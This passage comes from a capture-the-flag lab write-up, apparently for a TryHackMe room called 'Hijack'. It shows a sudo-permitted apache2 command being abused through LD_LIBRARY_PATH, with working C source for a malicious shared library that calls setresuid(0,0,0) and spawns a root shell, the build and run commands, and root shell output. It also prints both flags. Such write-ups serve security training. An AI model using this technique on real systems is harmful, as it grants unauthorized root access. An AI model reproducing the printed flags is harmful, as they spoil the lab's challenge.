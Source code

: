   User rick may run the following commands on Hijack:
      (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
  ```
  
- You can find all the details about exploiting `LD_LIBRARY_PATH` on [Hacktricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html?highlight=LD%20Library#ld_preload---ld_library_path).

- Exploitation is pretty straightforward. We create a new file, paste the C code, compile it and then run the PATH with SUDO command that we can use. Do all of that in `/tmp`.

  ```
  rick@Hijack:/tmp$ nano exploit.c
  rick@Hijack:/tmp$ cat exploit.c 
  #include <stdio.h>
  #include <stdlib.h>
  
  static void hijack() __attribute__((constructor));
  
  void hijack() {
          unsetenv("LD_LIBRARY_PATH");
          setresuid(0,0,0);
          system("/bin/bash -p");
  }
  
  rick@Hijack:/tmp$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /tmp/exploit.c
  /tmp/exploit.c: In function ‘hijack’:
  /tmp/exploit.c:8:9: warning: implicit declaration of function ‘setresuid’ [-Wimplicit-function-declaration]
           setresuid(0,0,0);
  ```
  
- All steps are done except running the exploit. Do it like a pro now!

  ```
  rick@Hijack:/tmp$ sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
  /usr/sbin/apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/x86_64-linux-gnu/libaprutil-1.so.0)
  root@Hijack:/tmp# whoami
  root
  root@Hijack:/tmp# id
  uid=0(root) gid=0(root) groups=0(root)
  
  root@Hijack:/tmp# cat /root/root.txt
  
  ██╗░░██╗██╗░░░░░██╗░█████╗░░█████╗░██╗░░██╗
  ██║░░██║██║░░░░░██║██╔══██╗██╔══██╗██║░██╔╝
  ███████║██║░░░░░██║███████║██║░░╚═╝█████═╝░
  ██╔══██║██║██╗░░██║██╔══██║██║░░██╗██╔═██╗░
  ██║░░██║██║╚█████╔╝██║░░██║╚█████╔╝██║░╚██╗
  ╚═╝░░╚═╝╚═╝░╚════╝░╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝
  
  THM{b91ea3e8285157eaf173d88d0a73ed5a}
  ```

- You can escalate with LD_PRELOAD like this as well, I'll cover that in another room named `Creative` which I did after this one.

---

## 🏁 Flags

- **User Flag**: `THM{fdc8cd4cff2c19e0d1022e78481ddf36}`
- **Root Flag**: `THM{b91ea3e8285157eaf173d88d0a73ed5a}`

---
  ```